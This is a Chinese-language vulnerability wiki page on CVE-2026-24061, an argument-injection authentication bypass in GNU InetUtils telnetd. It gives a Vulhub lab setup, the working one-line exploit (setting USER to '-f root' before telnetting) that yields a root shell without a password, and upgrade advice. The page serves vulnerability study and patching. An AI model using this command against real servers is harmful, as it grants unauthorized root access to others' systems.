

# GNU InetUtils telnetd 参数注入认证绕过漏洞 CVE-2026-24061

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.9.3至2.7、对应Telnet客户端支持传USER、实验映射2323
- 证据范围：简短明确、与长篇源码分析关联；Linux/macOS是否需-a取决于客户端实现，不应只按OS分类

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- compose环境路径缺失
- telnetd容器内默认23与主机2323映射应明确
- 升级>2.7需补发行版回移修复识别

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

GNU InetUtils 1.9.3 至 2.7 版本的 telnetd 服务器存在远程认证绕过漏洞（CVE-2026-24061）。telnetd 服务器在将 USER 环境变量传递给 `login(1)` 程序之前未进行过滤。攻击者可以提供类似 `-froot` 的 USER 值来触发 login 程序的认证绕过功能（`-f` 参数），无需凭据即可获得 root 访问权限。

该漏洞属于参数注入漏洞（CWE-88），CVSS v3.1 评分为 9.8（严重）。

参考链接：

- https://www.openwall.com/lists/oss-security/2026/01/20/2
- https://nvd.nist.gov/vuln/detail/CVE-2026-24061

## 漏洞影响

```
1.9.3 <= GNU InetUtils telnetd <= 2.7
```

## 环境搭建

Vulhub 执行如下命令编译并启动漏洞环境：

```shell
docker compose up -d
```

服务启动后，telnetd 将在 2323 端口监听。

## 漏洞复现

该漏洞允许通过向 USER 环境变量注入 `-f` 参数来绕过认证。当 telnetd 接收到以 `-f` 开头的用户名时，它会将此传递给 login 程序，login 程序会将 `-f` 解释为跳过认证的参数。

使用以下命令利用此漏洞获取 root 权限：

```shell
# Linux 客户端（需要 -a 选项）
USER="-f root" telnet -a 127.0.0.1 2323

# macOS 客户端（不需要 -a 选项）
USER="-f root" telnet 127.0.0.1 2323
```

成功利用后，您将无需提供任何密码即可获得 root shell 访问权限。




## 漏洞修复

- 将 GNU InetUtils telnetd 升级到 2.7 以上版本
- 建议使用 ssh 代替 telnetd


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
